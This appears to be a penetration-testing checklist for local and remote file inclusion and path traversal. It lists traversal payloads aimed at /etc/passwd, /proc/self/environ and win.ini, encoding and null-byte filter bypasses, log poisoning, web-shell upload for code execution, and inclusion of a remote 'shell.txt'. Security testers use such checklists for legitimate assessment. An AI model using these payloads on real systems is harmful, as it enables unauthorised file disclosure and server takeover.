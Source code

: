 ```yaml
---
legal-banner: true
---
```


1.  **Initial Information Gathering**
    - [ ] Identify and map all endpoints that accept file path inputs.
    - [ ] Review source code (if available) to understand file handling mechanisms.
    - [ ] Check for endpoints where file paths are passed as parameters in URLs, headers, or body.

2.  **Basic LFI Testing**
    - [ ] `../../../../etc/passwd`
    - [ ] `..%2F..%2F..%2F..%2Fetc%2Fpasswd`
    - [ ] `../../../../../../../../../../../etc/passwd`
    - [ ] Try to include different system files (e.g., `/etc/hosts`, `/proc/version`, `C:\Windows\win.ini`).

3.  **Path Traversal**
    - [ ] URL encoding: `%2e%2e%2f`, `%2e%2e%2f`
    - [ ] Double URL encoding: `%252e%252e%252f`
    - [ ] Unicode encoding: `..%c0%af..%c0%af..%c0%af`
    - [ ] Test bypass techniques for traversal filters (e.g., using null bytes `.%00`, appending slashes).

4.  **Advanced Path Traversal Techniques**
    - [ ] Test for double encoding vulnerabilities.
    - [ ] Try bypassing filters with non-standard encodings and mixed encodings.
    - Use directory traversal sequences with variations like:
        - [ ] `....//`
        - [ ] `....\/`
        - [ ] `%2e%2e%2f%2e%2e%2f`

5.  **File Inclusion and Execution**
    - [ ] `/etc/passwd` (Linux)
    - [ ] `/proc/self/environ`
    - [ ] `/proc/self/fd/0`
    - [ ] `C:\Windows\win.ini` (Windows)
    - [ ] Test for inclusion of log files, configuration files, or other readable files.

6.  **Null Byte Injection**
    - [ ] `/etc/passwd%00`
    - [ ] `C:\Windows\win.ini%00`

7.  **File Upload and Inclusion**
    
    - [ ] Check if file upload functionalities are present and try uploading files for inclusion.
    - [ ] Test inclusion of uploaded files to execute code (e.g., web shells).

8.  **Log Poisoning and Inclusion**
    - [ ] Inject payload into User-Agent, Referer, or other headers.
    - [ ] Include poisoned log files to execute injected payloads.

9.  **Remote File Inclusion (RFI)**
    
    - [ ] Check if the application allows remote file inclusion.
    -  Test including remote files via HTTP or FTP URLs:
        - [ ] `http://example.com/shell.txt`
        - [ ] `ftp://example.com/shell.txt`

10. **Error Handling and Response Analysis**
    - [ ] Analyze server responses for clues about the presence of LFI vulnerabilities.
    - [ ] Look for error messages that disclose file paths or other sensitive information.
    - [ ] Verify if application stack traces are exposed in responses.